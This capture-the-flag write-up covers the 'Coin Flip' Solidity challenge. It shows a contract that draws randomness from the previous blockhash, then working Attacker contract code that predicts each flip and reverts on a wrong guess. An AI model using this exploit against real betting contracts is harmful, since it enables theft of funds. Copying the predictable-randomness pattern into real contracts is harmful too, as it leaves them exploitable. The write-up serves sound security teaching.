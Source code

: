 # Coin Flip

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Goal

Win every bet by predicting the guess

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

We need more than 10 consecutive wins to pass this challenge, this value is stored inside the consecutiveWins variable, which is initialized to 0 in the contructor. 

One think to keep in mind is that the transactions in the blockchain are atomic, so either everything passes and the state is changed, or if the transaction failes everything is reverterd to the previous state, meaning if the transaction reverts every storage variable will kepp it's previos state (value).

Another thing to keep in mind is that everything in the smart contracts is publicly visible, including the local variables and state variables marked as private.

To place our guess we need to call the flip() function with a boolean parameter, which means this function only accepts true or false as parameters.

Inside the Attacker contract we can pre-calculate the side parameter and call the flip(bool _guess) function from the CoinFlip contract within the Attacker contract, only if our guess is correct.

The steps to reproduce the exploit would be:

1. create Attacker contract, and send the address of the CoinFlip contract inside the Attacker contract
2. create placeGuess(bool _guess) external function inside the Attacker contract, inside this function we will pre-calculate the side parameter (which can be true or false)
3. call the placeGuess function inside the Attacker contract with a value for the _guess parameter (true/false)
4. if our _guess is equals to the pre-calculated side parameter, we call the flip() function from the CoinFlip contract, if our _guess does not match the side parameter we revert the transaction

## Attacker contract code

```
contract Attacker {

  address private coinFlipContractAddress;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _cf) {
    coinFlipContractAddress = _cf;
  }

  function placeGuess(bool _guess) external {
      uint256 blockValue = uint256(blockhash(block.number - 1));

      uint256 coinFlipp = blockValue / FACTOR;
      bool side = coinFlipp == 1 ? true : false;

      if (side == _guess) {
        // calling the flip function from CoinFlip contract
        (bool success, ) = coinFlipContractAddress.call(abi.encodeWithSignature("flip(bool)", _guess));
        require(success, "Transaction failed");
      } else revert();
  }
}
```